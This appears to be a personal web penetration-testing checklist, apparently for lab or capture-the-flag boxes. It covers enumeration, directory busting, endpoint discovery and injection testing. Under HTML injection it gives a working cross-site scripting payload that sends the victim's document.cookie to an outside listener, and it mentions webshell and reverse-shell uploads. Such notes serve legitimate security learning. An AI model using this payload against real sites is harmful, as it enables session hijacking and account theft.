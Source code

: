 
What's running
	check nmap
	look at web page
	view source code
	burp
		check X-Powered-By header

robots.txt

Google
	"technology/framework" exploit
	poc
	cve

What's the file structure
	Directory busting
	[[InfoSec/Tools n Info/02 - Web Exploration/Fuzzing/gobuster|gobuster]]
	[[feroxbuster|feroxbuster]]

virtual hosts

checking for REST Endpoints or GET/POST parameters to exploit
	are there forms
	.ajax() call (if jQuery)
	.fetch 
	in browser
		forms: we find on the webpage - open the network tab in the dev tools of the browser - send off the form - see where the connection goes to in the network tab

Checking for REST Endpoints in the information we collected (source code or directory busting)

Parameters & Injections
	try changing id= 1 to 2 ... '
	"/item/13" <- change the 13 to 1 or 0
	html injections
		`<img src='http://10.10.14.156:8000/dog.jpg'>`
		`<img src='a' onerror='var i=new Image;i.src="http://10.10.14.156:8000/?"%2bdocument.cookie;'>`
	SQLi
	commands in the os's shell
	commands in programming language

Where ^
	forms
	parameters in url

webshell or revshell upload
	use what the system is built on; php, python django, vbscript node.js... perl might also work


